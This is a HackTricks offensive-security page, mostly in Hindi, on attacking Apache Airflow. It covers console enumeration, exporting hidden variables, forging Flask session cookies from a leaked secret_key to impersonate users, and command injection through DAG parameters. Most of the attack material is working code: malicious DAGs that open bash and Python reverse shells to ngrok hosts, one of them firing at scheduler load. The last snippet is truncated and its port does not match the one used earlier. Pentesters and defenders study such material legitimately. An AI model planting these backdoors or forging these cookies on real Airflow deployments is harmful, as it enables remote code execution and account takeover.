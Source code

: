 # Apache Airflow Security

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="../../.gitbook/assets/image (1) (1) (1) (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../.gitbook/assets/image (1) (1) (1) (1).png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="../../.gitbook/assets/image (2) (1).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../.gitbook/assets/image (2) (1).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

### Basic Information

[**Apache Airflow**](https://airflow.apache.org) **डेटा पाइपलाइनों या वर्कफ़्लो को व्यवस्थित और शेड्यूल करने के लिए एक प्लेटफ़ॉर्म के रूप में कार्य करता है**। डेटा पाइपलाइनों के संदर्भ में "व्यवस्थित करना" का अर्थ है विभिन्न स्रोतों से उत्पन्न जटिल डेटा वर्कफ़्लो को व्यवस्थित, समन्वयित और प्रबंधित करने की प्रक्रिया। इन व्यवस्थित डेटा पाइपलाइनों का प्राथमिक उद्देश्य संसाधित और उपभोग करने योग्य डेटा सेट प्रदान करना है। इन डेटा सेटों का व्यापक रूप से कई अनुप्रयोगों द्वारा उपयोग किया जाता है, जिसमें व्यवसायिक बुद्धिमत्ता उपकरण, डेटा विज्ञान और मशीन लर्निंग मॉडल शामिल हैं, जो सभी बड़े डेटा अनुप्रयोगों के कार्य करने के लिए आधारभूत हैं।

बुनियादी रूप से, Apache Airflow आपको **कोड के निष्पादन को शेड्यूल करने की अनुमति देगा जब कुछ** (घटना, क्रोन) **होगा**।

### Local Lab

#### Docker-Compose

आप **https://raw.githubusercontent.com/apache/airflow/main/docs/apache-airflow/start/docker-compose.yaml** से **docker-compose कॉन्फ़िग फ़ाइल का उपयोग कर सकते हैं** ताकि एक पूर्ण apache airflow docker वातावरण लॉन्च किया जा सके। (यदि आप MacOS पर हैं, तो सुनिश्चित करें कि आप docker VM को कम से कम 6GB RAM दें)।

#### Minikube

**apache airflow को चलाने का एक आसान तरीका** है **minikube के साथ इसे चलाना**:
```bash
helm repo add airflow-stable https://airflow-helm.github.io/charts
helm repo update
helm install airflow-release airflow-stable/airflow
# Some information about how to aceess the web console will appear after this command

# Use this command to delete it
helm delete airflow-release
```
### Airflow Configuration

Airflow शायद अपनी कॉन्फ़िगरेशन में **संवेदनशील जानकारी** संग्रहीत करता है या आप कमजोर कॉन्फ़िगरेशन पा सकते हैं:

{% content-ref url="airflow-configuration.md" %}
[airflow-configuration.md](airflow-configuration.md)
{% endcontent-ref %}

### Airflow RBAC

Airflow पर हमला करने से पहले आपको **अनुमतियों का काम कैसे करता है** समझना चाहिए:

{% content-ref url="airflow-rbac.md" %}
[airflow-rbac.md](airflow-rbac.md)
{% endcontent-ref %}

### Attacks

#### Web Console Enumeration

यदि आपके पास **वेब कंसोल तक पहुंच** है तो आप निम्नलिखित जानकारी में से कुछ या सभी तक पहुंच सकते हैं:

* **Variables** (कस्टम संवेदनशील जानकारी यहां संग्रहीत की जा सकती है)
* **Connections** (कस्टम संवेदनशील जानकारी यहां संग्रहीत की जा सकती है)
* उन्हें `http://<airflow>/connection/list/` में एक्सेस करें
* [**Configuration**](./#airflow-configuration) (संवेदनशील जानकारी जैसे **`secret_key`** और पासवर्ड यहां संग्रहीत किए जा सकते हैं)
* **users & roles** की सूची
* **Code of each DAG** (जिसमें दिलचस्प जानकारी हो सकती है)

#### Retrieve Variables Values

Variables को Airflow में संग्रहीत किया जा सकता है ताकि **DAGs** उनके मानों को **एक्सेस** कर सकें। यह अन्य प्लेटफार्मों के रहस्यों के समान है। यदि आपके पास **पर्याप्त अनुमतियाँ** हैं तो आप उन्हें GUI में `http://<airflow>/variable/list/` में एक्सेस कर सकते हैं।\
Airflow डिफ़ॉल्ट रूप से GUI में वेरिएबल का मान दिखाएगा, हालाँकि, [**इस**](https://marclamberti.com/blog/variables-with-apache-airflow/) के अनुसार, यह संभव है कि **वेरिएबल्स की एक सूची** सेट की जाए जिनका **मान** GUI में **अतिरिक्त चिह्नों** के रूप में दिखाई देगा।

![](<../../.gitbook/assets/image (164).png>)

हालांकि, ये **मान** अभी भी **CLI** के माध्यम से **प्राप्त** किए जा सकते हैं (आपको DB एक्सेस की आवश्यकता है), **मनमाने DAG** निष्पादन, **API** के माध्यम से वेरिएबल्स एंडपॉइंट तक पहुंच (API को सक्रिय करना आवश्यक है), और **यहां तक कि GUI स्वयं!**\
GUI से उन मानों तक पहुंचने के लिए बस **वेरिएबल्स का चयन करें** जिन्हें आप एक्सेस करना चाहते हैं और **Actions -> Export** पर क्लिक करें।\
एक और तरीका है **छिपे हुए मान** पर **ब्रूटफोर्स** करना, इसे **खोज फ़िल्टरिंग** का उपयोग करके जब तक आप इसे प्राप्त न कर लें:

![](<../../.gitbook/assets/image (152).png>)

#### Privilege Escalation

यदि **`expose_config`** कॉन्फ़िगरेशन **True** पर सेट है, तो **User** भूमिका और **ऊपर** से **वेब में कॉन्फ़िग** को **पढ़** सकते हैं। इस कॉन्फ़िगरेशन में, **`secret_key`** प्रकट होता है, जिसका अर्थ है कि इस वैध के साथ कोई भी उपयोगकर्ता **अपना स्वयं का साइन किया हुआ कुकी बना सकता है ताकि किसी अन्य उपयोगकर्ता खाते का प्रतिनिधित्व कर सके**।
```bash
flask-unsign --sign --secret '<secret_key>' --cookie "{'_fresh': True, '_id': '12345581593cf26619776d0a1e430c412171f4d12a58d30bef3b2dd379fc8b3715f2bd526eb00497fcad5e270370d269289b65720f5b30a39e5598dad6412345', '_permanent': True, 'csrf_token': '09dd9e7212e6874b104aad957bbf8072616b8fbc', 'dag_status_filter': 'all', 'locale': 'en', 'user_id': '1'}"
```
#### DAG बैकडोर (Airflow कार्यकर्ता में RCE)

यदि आपके पास **लिखने की अनुमति** है जहाँ **DAGs सहेजे जाते हैं**, तो आप बस **एक बना सकते हैं** जो आपको एक **रिवर्स शेल** भेजेगा।\
ध्यान दें कि यह रिवर्स शेल एक **airflow कार्यकर्ता कंटेनर** के अंदर निष्पादित होने वाला है:
```python
import pendulum
from airflow import DAG
from airflow.operators.bash import BashOperator

with DAG(
dag_id='rev_shell_bash',
schedule_interval='0 0 * * *',
start_date=pendulum.datetime(2021, 1, 1, tz="UTC"),
) as dag:
run = BashOperator(
task_id='run',
bash_command='bash -i >& /dev/tcp/8.tcp.ngrok.io/11433  0>&1',
)
```

```python
import pendulum, socket, os, pty
from airflow import DAG
from airflow.operators.python import PythonOperator

def rs(rhost, port):
s = socket.socket()
s.connect((rhost, port))
[os.dup2(s.fileno(),fd) for fd in (0,1,2)]
pty.spawn("/bin/sh")

with DAG(
dag_id='rev_shell_python',
schedule_interval='0 0 * * *',
start_date=pendulum.datetime(2021, 1, 1, tz="UTC"),
) as dag:
run = PythonOperator(
task_id='rs_python',
python_callable=rs,
op_kwargs={"rhost":"8.tcp.ngrok.io", "port": 11433}
)
```
#### DAG बैकडोर (Airflow शेड्यूलर में RCE)

यदि आप कुछ को **कोड की जड़ में निष्पादित करने के लिए सेट करते हैं**, तो इस लेखन के समय, इसे **शेड्यूलर द्वारा निष्पादित किया जाएगा** DAG के फ़ोल्डर में रखने के कुछ सेकंड बाद।
```python
import pendulum, socket, os, pty
from airflow import DAG
from airflow.operators.python import PythonOperator

def rs(rhost, port):
s = socket.socket()
s.connect((rhost, port))
[os.dup2(s.fileno(),fd) for fd in (0,1,2)]
pty.spawn("/bin/sh")

rs("2.tcp.ngrok.io", 14403)

with DAG(
dag_id='rev_shell_python2',
schedule_interval='0 0 * * *',
start_date=pendulum.datetime(2021, 1, 1, tz="UTC"),
) as dag:
run = PythonOperator(
task_id='rs_python2',
python_callable=rs,
op_kwargs={"rhost":"2.tcp.ngrok.io", "port": 144}
```
#### DAG Creation

यदि आप **DAG क्लस्टर के अंदर एक मशीन को समझौता करने में सफल होते हैं**, तो आप `dags/` फ़ोल्डर में नए **DAGs स्क्रिप्ट** बना सकते हैं और ये **DAG क्लस्टर के अंदर बाकी मशीनों में दोहराए जाएंगे**।

#### DAG Code Injection

जब आप GUI से एक DAG को निष्पादित करते हैं, तो आप इसे **आर्गुमेंट्स** दे सकते हैं।\
इसलिए, यदि DAG ठीक से कोडित नहीं है, तो यह **कमांड इंजेक्शन के लिए संवेदनशील हो सकता है।**\
यही इस CVE में हुआ: [https://www.exploit-db.com/exploits/49927](https://www.exploit-db.com/exploits/49927)

आपको **DAGs में कमांड इंजेक्शन की तलाश शुरू करने के लिए जो कुछ जानने की आवश्यकता है, वह यह है कि **पैरामीटर्स** को कोड **`dag_run.conf.get("param_name")`** के साथ **एक्सेस किया जाता है**।

इसके अलावा, वही संवेदनशीलता **वेरिएबल्स** के साथ भी हो सकती है (ध्यान दें कि पर्याप्त विशेषाधिकार के साथ आप GUI में **वेरिएबल्स के मान को नियंत्रित कर सकते हैं**)। वेरिएबल्स को **इससे एक्सेस किया जाता है**:
```python
from airflow.models import Variable
[...]
foo = Variable.get("foo")
```
यदि उन्हें उदाहरण के लिए एक bash कमांड के अंदर उपयोग किया जाता है, तो आप एक कमांड इंजेक्शन कर सकते हैं।

{% hint style="success" %}
सीखें और AWS हैकिंग का अभ्यास करें:<img src="../../.gitbook/assets/image (1) (1) (1) (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../.gitbook/assets/image (1) (1) (1) (1).png" alt="" data-size="line">\
सीखें और GCP हैकिंग का अभ्यास करें: <img src="../../.gitbook/assets/image (2) (1).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../.gitbook/assets/image (2) (1).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>HackTricks का समर्थन करें</summary>

* [**सदस्यता योजनाएँ**](https://github.com/sponsors/carlospolop) देखें!
* **हमारे** 💬 [**Discord समूह**](https://discord.gg/hRep4RUj7f) या [**telegram समूह**](https://t.me/peass) में शामिल हों या **हमें** **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks_live)** पर फॉलो करें।**
* **हैकिंग ट्रिक्स साझा करें और** [**HackTricks**](https://github.com/carlospolop/hacktricks) और [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) गिटहब रिपोजिटरी में PR सबमिट करें।

</details>
{% endhint %}
